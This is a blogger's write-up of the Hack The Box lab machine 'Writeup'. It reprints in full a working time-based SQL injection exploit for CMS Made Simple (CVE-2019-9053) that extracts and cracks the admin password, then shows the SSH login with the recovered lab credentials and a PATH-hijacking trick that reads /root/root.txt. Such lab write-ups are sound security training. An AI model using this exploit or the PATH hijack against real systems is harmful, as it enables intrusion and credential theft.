





+++
title = "Writeup"
date = 2019-10-12
[taxonomies]
tags = ["hackthebox"]
+++

1. Ports show 22 and 80 being opened. Port 80 hosts this weird page with ascii art on the home page. Scanning using dirbuster or dirsearch is useless as it bans my IP.  Although my nmap scan managed to find a `robot.txt` file that contains a disallowed entry for `/writeup/` directory.

    Visiting the page doesn't yield much information besides previous write ups of other HTB boxes. Looking through the source code revealed more information, the web page being hosted is using a platform called CMS Made Simple.

    ```html
    <meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
    ```

    Seeing that the copyright is 2019, I think the CMS version is very new.

    Further investigation also shows a login link. Since I don't know what password is, I'll keep this aside just in case I need it.

    ```shell
    http://10.10.10.138/writeup/admin/login.php
    ```

2. With all the information that I've found so far, it was time to Google what exploits I can utilize to get my way into user land. I found this [script](https://packetstormsecurity.com/files/152356/cmsmadesimple22-sql.txt). It's a SQL injection script targeting the CMS platform.

    I had trouble running with this script as it couldn't find the URL to exploit. After manually troubleshooting this script, I found the proper URL:

    ```
    http://10.10.10.138/writeup/moduleinterface.php?mact=News,m1_,default,0
    ```

    

    ```python
    #!/usr/bin/env python
    # Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
    # Date: 30-03-2019
    # Exploit Author: Daniele Scanu @ Certimeter Group
    # Vendor Homepage: https://www.cmsmadesimple.org/
    # Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
    # Version: <= 2.2.9
    # Tested on: Ubuntu 18.04 LTS
    # CVE : CVE-2019-9053

    import requests
    from termcolor import colored
    import time
    from termcolor import cprint
    import optparse
    import hashlib

    parser = optparse.OptionParser()
    parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.138/writeup)")
    parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
    parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

    options, args = parser.parse_args()
    if not options.url:
        print "[+] Specify an url target"
        print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
        print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
        print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
        exit()

    url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
    session = requests.Session()
    dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
    flag = True
    password = ""
    temp_password = ""
    TIME = 5
    db_name = ""
    output = ""
    email = ""

    salt = ''
    wordlist = ""
    if options.wordlist:
        wordlist += options.wordlist

    def crack_password():
        global password
        global output
        global wordlist
        global salt
        dict = open(wordlist)
        for line in dict.readlines():
            line = line.replace("\n", "")
            beautify_print_try(line)
            if hashlib.md5(str(salt) + line).hexdigest() == password:
                output += "\n[+] Password cracked: " + line
                break
        dict.close()

    def beautify_print_try(value):
        global output
        print "\033c"
        cprint(output,'green', attrs=['bold'])
        cprint('[*] Try: ' + value, 'red', attrs=['bold'])

    def beautify_print():
        global output
        print "\033c"
        cprint(output,'green', attrs=['bold'])

    def dump_salt():
        global flag
        global salt
        global output
        ord_salt = ""
        ord_salt_temp = ""
        while flag:
            flag = False
            for i in range(0, len(dictionary)):
                temp_salt = salt + dictionary[i]
                ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
                beautify_print_try(temp_salt)
                payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
                url = url_vuln + "&m1_idlist=" + payload
                start_time = time.time()
                r = session.get(url)
                elapsed_time = time.time() - start_time
                if elapsed_time >= TIME:
                    flag = True
                    break
            if flag:
                salt = temp_salt
                ord_salt = ord_salt_temp
        flag = True
        output += '\n[+] Salt for password found: ' + salt

    def dump_password():
        global flag
        global password
        global output
        ord_password = ""
        ord_password_temp = ""
        while flag:
            flag = False
            for i in range(0, len(dictionary)):
                temp_password = password + dictionary[i]
                ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
                beautify_print_try(temp_password)
                payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
                payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
                url = url_vuln + "&m1_idlist=" + payload
                start_time = time.time()
                r = session.get(url)
                elapsed_time = time.time() - start_time
                if elapsed_time >= TIME:
                    flag = True
                    break
            if flag:
                password = temp_password
                ord_password = ord_password_temp
        flag = True
        output += '\n[+] Password found: ' + password

    def dump_username():
        global flag
        global db_name
        global output
        ord_db_name = ""
        ord_db_name_temp = ""
        while flag:
            flag = False
            for i in range(0, len(dictionary)):
                temp_db_name = db_name + dictionary[i]
                ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
                beautify_print_try(temp_db_name)
                payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
                url = url_vuln + "&m1_idlist=" + payload
                start_time = time.time()
                r = session.get(url)
                elapsed_time = time.time() - start_time
                if elapsed_time >= TIME:
                    flag = True
                    break
            if flag:
                db_name = temp_db_name
                ord_db_name = ord_db_name_temp
        output += '\n[+] Username found: ' + db_name
        flag = True

    def dump_email():
        global flag
        global email
        global output
        ord_email = ""
        ord_email_temp = ""
        while flag:
            flag = False
            for i in range(0, len(dictionary)):
                temp_email = email + dictionary[i]
                ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
                beautify_print_try(temp_email)
                payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
                url = url_vuln + "&m1_idlist=" + payload
                start_time = time.time()
                r = session.get(url)
                elapsed_time = time.time() - start_time
                if elapsed_time >= TIME:
                    flag = True
                    break
            if flag:
                email = temp_email
                ord_email = ord_email_temp
        output += '\n[+] Email found: ' + email
        flag = True

    dump_salt()
    dump_username()
    dump_email()
    dump_password()

    if options.cracking:
        print colored("[*] Now try to crack password")
        crack_password()

    beautify_print()
    ```

3. Execute the exploit script:

    ```shell
    python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup
    ```

    

    As you can see, the result isn't proper, it's missing some characters. Another adjustment to the script was the TIME parameter. Adjusting the time to a sleep a few more seconds produced accurate results.

4. I wonder what the hashes mean. I used hashkiller and other online hash sites and no results showed up.

    ```shell
    # hash-identifier

    HASH: 5a599ef579066807

    Possible Hashs:
    [+]  MySQL
    [+]  MD5(Middle)

    Least Possible Hashs:
    [+]  MD5(Half)

       -------------------------------------------------------------------------
     HASH: 62def4866937f08cc13bab43bb14e6f7

    Possible Hashs:
    [+]  MD5
    [+]  Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
    ```

5. Surprisingly, the exploit script also included the function to brute force the hash using a dictionary file of your choice. I used `rockyou.txt` and executed the script again:

    ```shell
    python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup --c -w /usr/share/wordlists/rockyou.txt
    ```

    

    I found the password! Now how do I log in? I remembered that SSH was opened so I tried that since we have the username as well.

    ```
    ssh jkr@writeup
    password: raykayjay9
    ```

    User flag has been obtained.

### Privilege Escalation

1. This is where it got hard for me. Running `LinEnum` and `linuxprivchecker` scripts didn't produce results that lead to privesc, more like rabbit holes of trying to manipulate PATH to run `/etc/update-motd/10-uname` script.

2. After reading some hints for this machine, there is a [pspy tool](https://github.com/DominicBreuker/pspy) that I had to use to watch processes that are being spawned after someone logs into the machine via ssh. The problem is I have a VIP subscription and there isn't much traffic to monitor to spot the anomaly that I was suppose to look for. I ran the `pspy` for 3 days and see I would catch something in the logs. Nope, all I saw that stood out was this line:

    ```shell
    sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new

    /bin/sh /usr/local/sbin/run-parts --lsbsysinit /etc/update-motd.d
    ```

3. I got stuck on this problem for 2-3 days now and was annoyed that I know it was something simple. Then someone gave me a hint, wasn't even a specific one about PATHs, it was a simple question of "how does PATH work?". I stared at the logs again and something started to click.

    

    Notice that `run-parts` binary is located in `bin` directory which is the 3rd position of where PATH will start looking for the binary of the user's current PATH.

    

    Knowing that, it's a matter of creating a symbolic link in `/usr/local/bin` with the name `run-parts` that contain a line of code that will read and output `root.txt`.

    ```shell
    vi /usr/local/bin/test

    cat /root/root.txt /tmp/rooted.txt
    ```

    You won't be able to read the `/usr/local/bin` directory due to permissions but this doesn't matter as long as we have write permissions.

4. Trigger the `run-parts` executable by logging into SSH in another session. Check the `/tmp/rooted.txt` for the flag.

`Protip`{: .info }

I found this useful site: [https://explainshell.com/](https://explainshell.com/)